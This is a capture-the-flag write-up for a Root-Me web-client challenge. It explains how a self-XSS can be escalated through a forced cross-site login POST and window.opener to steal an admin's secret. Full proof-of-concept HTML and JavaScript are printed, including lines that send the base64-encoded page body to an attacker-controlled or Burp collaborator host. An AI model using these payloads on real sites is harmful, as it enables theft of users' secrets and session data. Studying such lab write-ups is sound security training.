

# Self XSS - DOM Secrets (opener)

Challenge category : WEB-CLIENT\
Difficulty : HARD \
Link : https://www.root-me.org/en/Challenges/Web-Client/Self-XSS-DOM-Secrets

Statement 
```
A rather simplistic secret management platform has just been released. The application’s security prevents javascript from accessing any secret information. Nevertheless, find a way to obtain the admin’s secret.
```
To solve this challenge we need an external host/domain and we need to know how [opener](https://developer.mozilla.org/en-US/docs/Web/API/Window/opener) and [windows.open()](https://developer.mozilla.org/en-US/docs/Web/API/Window/open) works in JS

As we can see, the username field is vulnerable to html/js injection,


but in this case we have a Self XSS because the username is stored in the session cookie, so to trigger an alert to the victim, for example, we would have to have the victim send a post request with the payload in the username \
So in this case we need an external host with an html or php page that crafts the post request for example : 
```html
<html>
<head></head>
<body>

<form id="myForm" method="post" action="http://challenge01.root-me.org:58003/login">
			<input id="username" name="username" value="<script>alert(1)</script>"></input>
            
            <input id="secret" name="secret" value="test_secret"></input>

</form>

<script>
  var form = document.getElementById("myForm");
  form.submit(); 

</script>
</body>
</html>
```
As you can see in the username value is our payload ` <input id="username" name="username" value="<script>alert(1)</script>"></input>`\
If we host this html page and send it to the victim, it will be redirected to `http://challenge01.root-me.org:58003/profile` and an alert will appear \
In this way, we were able to exploit an XSS on the victim, but we cannot read the `secret` because the post request overwrites the session cookie and so the `secret` changes in this case are overwritten by `test_secret` : `<input id="secret" name="secret" value="test_secret"></input>` \

To read the `secret`, we must ensure that the victim has 2 windows open and that window 1 opens window 2 with `window.open()` 
- Window 1 loads the page `/profile` where the correct secret is, and opens window 2 with our post crafted request 
- Window 2 being on the same domain can modify window 1 using opener for example it can redirect window 1 to another host : `opener.location="http://another-host.com"` or trigger an alert `opener.location="javascript:alert(1)"` or exfiltrate the contents of the body to read the secret 
`opener.location="javascript:location='http://ATTACKER.COM/?body='.concat(btoa(document.body.innerHTML))"` 


I used an external host and burp's collaborator, but you can do everything with the external host 

I hosted 2 files on my host: poc.html and poc.js 

poc.html : 
```html
<html>
<head></head>
<body>

<form id="myForm" method="post" action="http://challenge01.root-me.org:58003/login">
			<input id="username" name="username" value="<script src='http://[MY-HOST]/poc.js'></script>"></input>
            
            <input id="secret" name="secret" value="test_secret"></input>

</form>

<script>
function newWindowPost() { //THIS FUNCTION OPEN NEW WINDOW AND MAKE POST REQUEST WITH PAYLOAD IN USERNAME VALUE
  var form = document.getElementById("myForm");
  var newWindow = window.open("http://challenge01.root-me.org:58003/profile", "newWindow", "width=600,height=400");

  if (newWindow) {
    form.target = "newWindow"; 
    form.submit(); 
  } else {
    alert("Popup blocked");
  }
}


newWindowPost();
window.location="http://challenge01.root-me.org:58003/profile"; // redirects the admin to the /profile page with the original session containing secret 

</script>
</body>
</html>
```

poc.js : 
```javascript
try{
opener.location="javascript:location='http://[burp-collaborator].com/?body='.concat(btoa(document.body.innerHTML))";
}
catch{
location='http://[burp-collaborator].com/?fail='
}
```

we can now send the link of our host to the admin via the report section 


and if all goes well, we should have the contents of the body encoded in base64 on the collaborator 



